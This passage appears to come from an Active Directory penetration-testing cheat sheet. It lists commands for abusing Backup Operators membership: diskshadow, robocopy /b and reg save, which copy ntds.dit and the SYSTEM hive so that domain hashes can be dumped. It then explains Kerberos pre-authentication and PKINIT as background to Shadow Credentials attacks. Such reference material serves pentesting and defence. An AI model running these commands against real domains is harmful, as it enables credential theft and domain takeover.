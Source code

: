 ## Abusing Backup Operators Group

**Requires:** User account that is member of the Backup Operators group
**Achieves:** Extract ntds.dit, dump hashes to escalate privileges to Domain Admin

**[Backup Operator - Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#backup-operators)**

```
whoami /all (SeBackupPrivilege Enabled)

diskshadow /s backup.txt
robocopy /b E:\Windows\ntds . ntds.dit (NTDS file)
reg save hklm\system c:\temp\system.bak (System Hive keys)
```
**Additional Resources**
  -  [Windows Privilege Escalation with SeBackupPrivilege](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960#ac58)

## Shadow Credentials (msDS-KeyCredentialLink | AddKeyCredentialLink)

### Understanding PKINIT (Public Key Cryptography for Initial Authentication)
*Credits to SpecterOps [link here](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab)*

In Kerberos authentication, clients must perform "pre-authentication" before the KDC provides them with a Ticket Granting Ticket (TGT), which can subsequently be used to obtain Service Tickets. The reason for pre-authentication is that without it, anyone could obtain a blob encrypted with a key derived from the client’s password and try to crack it offline, as done in the AS-REP Roasting Attack.

The client performs pre-authentication by encrypting a timestamp with their credentials to prove to the KDC that they have the credentials for the account. This is usually done via a symmetric key approach, derived from the client’s password, AKA secret key. If using RC4 encryption, this key would be the NT hash of the client’s password. The KDC has a copy of the client’s secret key and can decrypt the pre-authentication data to authenticate the client. The KDC uses the same key to encrypt a session key sent to the client along with the TGT.

PKINIT is the less common, asymmetric key (public key) approach. The client has a public-private key pair, and encrypts the pre-authentication data with their private key, and the KDC decrypts it with the client’s public key. This requires an exchange of certificates using a Certificate Authority which they both trust, through a method known as the Certificate Trust model.

A new concept introduced in Windows Server 2016 allowed for Key Trusts that support passwordless authentication. The client’s public key is stored in a multi-value attribute called `msDS-KeyCredentialLink`. The values of this attribute are Key Credentials, which are serialized objects containing information such as the creation date, the distinguished name of the owner, a GUID that represents a Device ID, and, of course, the public key.

![image](https://github.com/qwutony/qwutony.github.io/assets/45024645/02de8c83-70fc-4ae3-a294-fcee6b2d22e6)

### Windows Hello Enrollment
